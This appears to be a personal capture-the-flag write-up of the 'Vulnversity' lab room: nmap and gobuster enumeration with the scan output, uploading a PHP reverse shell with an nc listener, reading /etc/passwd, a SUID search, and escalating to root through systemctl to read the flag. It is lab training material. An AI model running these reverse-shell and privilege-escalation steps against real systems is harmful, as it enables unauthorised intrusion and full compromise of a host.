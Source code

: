 # Vulnversity
# Data: 11.09.2020

#IP: `10.10.102.181`


###Steps
1. nmap -sC -sV -oN nmap/initial <IP>
	- find HTTP port at 3333

#unzip wordlist gzip -u /usr/share/wordlist/rockyou.txt.gz

2. obuster dir -u http://10.10.102.181:3333 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	- results:
----
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.102.181:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/11 07:23:50 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
[ERROR] 2020/09/11 07:30:10 [!] Get http://10.10.102.181:3333/remixer: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/server-status (Status: 403)
[ERROR] 2020/09/11 07:43:13 [!] Get http://10.10.102.181:3333/alienskin: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/09/11 07:44:51 [!] Get http://10.10.102.181:3333/t13169: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/09/11 07:45:07 Finished
===============================================================

----

#get php_reverse_shell.php from github and change name for easier use
3. change ip and port in revshell.php
	<IP>
	<port>: `9001`
4. start listnen on port using nc -lnvp <port>
5. check users by:
	cat /etc/passwd

#escalate
6. find / -perm -4000 2>/dev/null          
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs

7. use systemctl exploid to gain privilages
8. get flag from /root/flag.txt

###